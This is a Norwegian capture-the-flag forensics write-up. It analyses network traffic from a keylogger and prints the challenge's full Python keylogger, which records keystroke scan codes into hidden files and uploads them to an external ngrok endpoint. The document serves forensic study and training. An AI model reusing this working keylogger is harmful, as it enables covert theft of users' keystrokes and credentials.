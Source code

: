 # Keyscanner
En gøy forensics oppgave der man måtte integrere forståelse av nettverkslogger med et script som sender `http`-requests. 

# Oppgave av Vealending 
Our CSIRT recently discovered a keylogger running on one of our systems.
They've managed to capture the network traffic containing the keylogger's activity and the offending script itself.
Can you figure out what information was compromised?

# Løsning
Vi får nettverkstraffikken `capture.pcapng` og `Keylogger.py`. Ved å lese skriptet får vi informasjon om hvilken server keyloggingsaktiviteten ble sendt til. 
```python
import keyboard
import requests
import ctypes
import uuid
import os


class Logger:
    MAX_FILE_SIZE = 128
    APPDATA_FOLDER = os.getenv("APPDATA")
    FILE_NAME_PREFIX = "."
    FILE_NAME_SUFFIX = ".sc"
    REMOTE_SERVER = "http://c784-89-11-175-7.eu.ngrok.io/l0gg3r_3ndp0in7"
    REMOTE_HEADERS = {"Content-Type": "application/octet-stream"}

    def __init__(self):
        self.file_path = os.path.join(
            self.APPDATA_FOLDER,
            self.FILE_NAME_PREFIX + str(uuid.uuid4()) + self.FILE_NAME_SUFFIX,
        )
        self.file_size = 0

    def _get_layout(self):
        layout_name = ctypes.create_unicode_buffer(9)
        if ctypes.WinDLL("user32").GetKeyboardLayoutNameW(layout_name):
            return layout_name.value
        return None

    def _write_to_file(self, event):
        with open(self.file_path, "ab") as f:
            try:
                f.write(bytes([event.scan_code]))
            except ValueError:
                pass  # Discard extended scan codes

        self.file_size = os.path.getsize(self.file_path)

        if self.file_size >= self.MAX_FILE_SIZE:
            with open(self.file_path, "rb") as f:
                response = requests.post(
                    self.REMOTE_SERVER,
                    headers=self.REMOTE_HEADERS,
                    params={"layout": self._get_layout()},
                    data=f,
                )

            if response.status_code == 200:
                os.remove(self.file_path)

            self.file_path = os.path.join(
                self.APPDATA_FOLDER,
                self.FILE_NAME_PREFIX + str(uuid.uuid4()) + self.FILE_NAME_SUFFIX,
            )
            self.file_size = 0

    def start_logging(self):
        keyboard.hook(self._write_to_file)
        keyboard.wait()


if __name__ == "__main__":
    keylogger = Logger()
    keylogger.start_logging()

```
Vi filtrerer slik `http.request.uri matches "/l0gg3r_3ndp0in7"` og lagrer datene som var tilsendt som plaintext. Deretter kan vi lettere utvinne all dataene og lagre det i en fil. For eksempel brukte jeg `cat data.txt | grep "0000  " -A 8 -B 0 > new.txt`.
Et eksempel packet inneholder også `layout` som beskriver hvilken keyboard layout var blitt brukt. Dette er nyttig for å dekryptere dataene ved skankodene. 
